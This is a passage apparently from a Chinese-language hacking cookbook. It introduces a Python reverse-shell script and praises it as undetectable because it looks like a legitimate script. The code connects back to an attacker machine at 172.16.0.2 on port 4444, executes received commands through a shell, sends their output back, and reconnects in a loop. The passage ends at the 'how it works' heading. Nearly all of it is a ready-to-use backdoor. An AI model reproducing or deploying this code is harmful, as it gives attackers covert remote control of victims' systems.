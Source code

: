 这个 Python 脚本的美妙之处在于它的不可检测性，因为它看起来是一个完全合法的脚本。

## 怎么做…

这是将通过 Netcat 建立连接并读取输入的脚本：

```py
import socket
import subprocess
import sys
import time

HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on

def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go

def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False

def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```

## 它是如何工作的…
